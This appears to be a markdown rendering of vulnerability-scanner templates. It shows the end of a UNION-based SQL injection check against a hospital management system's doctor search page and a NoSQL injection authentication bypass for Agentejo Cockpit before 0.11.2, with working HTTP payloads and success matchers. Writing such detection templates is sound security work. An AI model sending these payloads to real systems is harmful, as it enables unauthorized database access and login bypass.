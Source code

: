 ### Step - 2
```
POST /hospital/hms/doctor/search.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

searchdata='+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(CONCAT(md5({{num}}),1),2),NULL--+PqeG&search=

```
### Matchers

**Type - word**
- part - body
- words
    1. {{md5(num)}}

**Type - status**
- status
    1. 200

---
# Agentejo Cockpit < 0.11.2 - NoSQL Injection
## Description
- Agentejo Cockpit before 0.11.2 allows NoSQL injection via the Controller/Auth.php check function. The $eq operator matches documents where the value of a field equals the specified value.
- severity - critical
- tags - cve,cve2020,nosqli,sqli,cockpit,injection
## Requests
- Method - POST
- Method - POST
### URL
- {{BaseURL}}/auth/check
  - {
  "auth": {
    "user": {
      "$eq": "admin"
    },
    "password": [
      0
    ]
  }
}

### Matchers

**Type - status**
- status
    1. 200
